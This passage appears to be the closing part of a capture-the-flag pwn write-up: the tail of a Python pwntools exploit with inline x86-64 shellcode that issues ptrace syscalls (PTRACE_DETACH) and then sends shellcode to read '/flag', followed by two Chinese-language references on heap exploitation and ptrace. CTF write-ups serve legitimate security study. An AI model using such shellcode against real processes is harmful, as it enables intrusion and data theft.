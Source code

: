 ```python
    syscall

    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi,{PTRACE_DETACH}
    push {NR_ptrace}
    pop rax
    syscall
    hlt

child_code:
"""

s(asm(shellcode) + asm(shellcraft.cat("/flag")))

ia()
```

---

### References

1. [CTF 中 glibc堆利用 及 IO_FILE 总结](https://bbs.kanxue.com/thread-272098.htm) . *[winmt](https://bbs.kanxue.com/homepage-949925.htm)*
2. [2024 羊城杯 PWN 详细全解 - ptrace 系统调用概述](https://xz.aliyun.com/t/15461#toc-0)
